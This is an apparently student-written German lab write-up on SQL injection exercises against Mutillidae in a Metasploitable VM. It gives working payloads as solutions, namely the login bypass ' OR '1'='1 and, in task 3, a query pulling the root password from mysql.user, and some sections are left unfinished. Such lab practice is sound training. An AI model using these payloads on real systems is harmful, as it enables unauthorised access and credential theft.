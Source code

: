 # Aufgabenstellung
Mit Metasploitable SQL-Injections üben

# Connection
Metasploitable und Kali starten und die IP Addresse von Metasploitable aufrufen.

![[Pasted image 20231019144125.png]]

# Aufgaben
Auf Mutillidae clicken und die erste Aufgabe aufmachen


Zurück zu Metasploitable wechseln und in der config.inc Datei 'metasploitable' zu 'owasp10' ändern
![[Pasted image 20231019143904.png]]
![[Pasted image 20231019144017.png]]

## Aufgabe 1

![[Pasted image 20231019144535.png]]

Lösung:
Username: admin
Password: ' OR '1'='1

![[Pasted image 20231019145654.png]]

Erklärung:
Da bei dem Passwort vergleich mit den Daten in der Datenbank fest gecoded wurde das das eingegeben Passwort in einzelnen Hochkomma geschrieben wird, kann man dies ausnutzen und eine OR Vergleich überschreiben.

## Aufgabe 2

![[Pasted image 20231019145043.png]]

Lösung:
Username: admin
Password: ' OR '1'='1

![[Pasted image 20231019145401.png]]

Erklärung:
Wie Aufgabe 1 wird hier ebenfalls im Code festgelegt das das eingegeben Passwort in einzelnen Hochkomma steht

# Aufgabe 3

![[Pasted image 20231019145315.png]]

Lösung: x','x', (select password from mysql.user where username = 'root') #
Username: 
Password: -
Confirm psw: -
Signature: -

Erklärung:


# Aufgabe 4

![[Pasted image 20231109150150.png]]

Lösung:
Username: admin
Password: ' OR '1'='1

![[Pasted image 20231109150256.png]]

Erklärung:
Wie Aufgabe 1 wird hier ebenfalls im Code festgelegt das das eingegeben Passwort in einzelnen Hochkomma steht

# Aufgabe 5

![[Pasted image 20231109150336.png]]

Lösung:
Username: admin
Password: ' OR '1'='1

![[Pasted image 20231109150501.png]]

Erklärung:
Wie Aufgabe 1 wird hier ebenfalls im Code festgelegt das das eingegeben Passwort in einzelnen Hochkomma steht.
Wenn man eingeloggt ist wird einem eine Liste von allen Usern und deren Passwörtern ausgegeben

# Aufgabe 6



